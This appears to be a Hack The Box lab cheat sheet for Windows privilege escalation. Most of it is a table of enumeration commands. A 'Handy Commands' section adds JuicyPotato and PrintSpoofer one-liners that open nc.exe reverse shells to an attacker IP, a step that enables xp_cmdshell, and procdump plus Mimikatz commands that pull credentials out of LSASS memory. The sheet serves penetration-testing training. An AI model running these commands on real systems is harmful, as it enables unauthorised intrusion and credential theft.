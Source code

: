 ## Initial Enumeration

|**Command**|**Description**|
|---|---|
|`xfreerdp /v:<target ip> /u:htb-student`|RDP to lab target|
|`ipconfig /all`|Get interface, IP address and DNS information|
|`arp -a`|Review ARP table|
|`route print`|Review routing table|
|`Get-MpComputerStatus`|Check Windows Defender status|
|`Get-AppLockerPolicy -Effective \| select -ExpandProperty RuleCollections`|List AppLocker rules|
|`Get-AppLockerPolicy -Local \| Test-AppLockerPolicy -path C:\Windows\System32\cmd.exe -User Everyone`|Test AppLocker policy|
|`set`|Display all environment variables|
|`systeminfo`|View detailed system configuration information|
|`wmic qfe`|Get patches and updates|
|`wmic product get name`|Get installed programs|
|`tasklist /svc`|Display running processes|
|`query user`|Get logged-in users|
|`echo %USERNAME%`|Get current user|
|`whoami /priv`|View current user privileges|
|`whoami /groups`|View current user group information|
|`net user`|Get all system users|
|`net localgroup`|Get all system groups|
|`net localgroup administrators`|View details about a group|
|`net accounts`|Get passsword policy|
|`netstat -ano`|Display active network connections|
|`pipelist.exe /accepteula`|List named pipes|
|`gci \\.\pipe\`|List named pipes with PowerShell|
|`accesschk.exe /accepteula \\.\Pipe\lsass -v`|Review permissions on a named pipe|

## Handy Commands

|**Command**|**Description**|
|---|---|
|`mssqlclient.py sql_dev@10.129.43.30 -windows-auth`|Connect using mssqlclient.py|
|`enable_xp_cmdshell`|Enable xp_cmdshell with mssqlclient.py|
|`xp_cmdshell whoami`|Run OS commands with xp_cmdshell|
|`c:\tools\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\tools\nc.exe 10.10.14.3 443 -e cmd.exe" -t *`|Escalate privileges with JuicyPotato|
|`c:\tools\PrintSpoofer.exe -c "c:\tools\nc.exe 10.10.14.3 8443 -e cmd"`|Escalating privileges with PrintSpoofer|
|`procdump.exe -accepteula -ma lsass.exe lsass.dmp`|Take memory dump with ProcDump|
|`sekurlsa::minidump lsass.dmp` and `sekurlsa::logonpasswords`|Use MimiKatz to extract credentials from LSASS memory dump|